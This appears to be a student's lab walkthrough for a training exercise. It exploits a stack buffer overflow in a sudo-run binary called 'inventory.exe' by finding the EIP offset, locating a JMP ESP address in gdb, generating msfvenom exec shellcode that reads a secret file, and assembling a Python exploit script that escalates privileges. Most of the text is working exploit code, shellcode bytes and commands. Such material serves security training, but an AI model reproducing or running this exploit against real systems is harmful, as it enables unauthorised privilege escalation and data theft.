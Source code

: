```
student@lin-ops:~/Desktop/Security$ gdb ./inventory.exe 
gdb-peda$ run
Starting program: /home/student/Desktop/Security/inventory.exe 
Press enter to view inventory: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```
(get this from wiremask.eu)
`EIP: 0x63413563 ('c5Ac')`
copy this value into wiremask.eu to get the offset
on comrade create a python script in tmp directory
```
comrade@web:/.hidden$ env - gdb ./inventory.exe 
(gdb) show env
LINES=14
COLUMNS=90
(gdb) unset env COLUMNS
(gdb) unset env LINES
(gdb) show env
(gdb) run 
Starting program: /.hidden/inventory.exe 
Press enter to view inventory: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
(gdb) find /b 0xf7def000, 0xffffe000, 0xff, 0xe4
```
copy the first 3 into note on your script
return to lip ops to run msfvenom
```
student@lin-ops:~/Desktop/Security$ msfvenom -p linux/x86/exec CMD="cat /.secret/.verysecret.pdb" -b '\x00' -f python
...
buf += b"\xda\xd2\xb8\x9e\xbf\x5e\xf6\xd9\x74\x24\xf4\x5e"
buf += b"\x2b\xc9\xb1\x11\x31\x46\x17\x03\x46\x17\x83\x58"
buf += b"\xbb\xbc\x03\x0e\xcf\x18\x75\x9c\xa9\xf0\xa8\x43"
buf += b"\xbf\xe6\xdb\xac\xcc\x80\x1b\xda\x1d\x33\x75\x74"
buf += b"\xeb\x50\xd7\x60\xf6\x96\xd8\x70\x6a\xf6\xac\x50"
buf += b"\x43\xd6\x3f\xf5\xf8\x54\xa5\x81\xd1\xb6\x53\x0c"
buf += b"\x5c\xbe\xe8\xab\xc3\x32\x6a\x47\x2a\xc3\x10\xc5"
buf += b"\x32\x74\x8a\x80\xd2\xb7\xac"
```
copy these values into the script
create a script with similar inputs:
```
#!/usr/bin/python2.7



#OFFSET

buf = "A" * 76 #OFFSET
'''
memory address fro jmp esp (convert from little ind -> big
0xf7df1b51
0xf7f6674b
0xf7f72753
'''
buf += "\x51\x1b\xdf\xf7" #EIP register - JMP ESP
#msfvenom -p linux/x86/exec CMD=ifconfig -b '\x00' -f python
buf += "\x90" * 10 #NOP sled 
buf += b"\xda\xd2\xb8\x9e\xbf\x5e\xf6\xd9\x74\x24\xf4\x5e"
buf += b"\x2b\xc9\xb1\x11\x31\x46\x17\x03\x46\x17\x83\x58"
buf += b"\xbb\xbc\x03\x0e\xcf\x18\x75\x9c\xa9\xf0\xa8\x43"
buf += b"\xbf\xe6\xdb\xac\xcc\x80\x1b\xda\x1d\x33\x75\x74"
buf += b"\xeb\x50\xd7\x60\xf6\x96\xd8\x70\x6a\xf6\xac\x50"
buf += b"\x43\xd6\x3f\xf5\xf8\x54\xa5\x81\xd1\xb6\x53\x0c"
buf += b"\x5c\xbe\xe8\xab\xc3\x32\x6a\x47\x2a\xc3\x10\xc5"
buf += b"\x32\x74\x8a\x80\xd2\xb7\xac"

print(buf)
```
this command is your last step to escalate your privledges
`comrade@web:/$ sudo /.hidden/inventory.exe <<< $(python /tmp/mybuff.py)`

https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
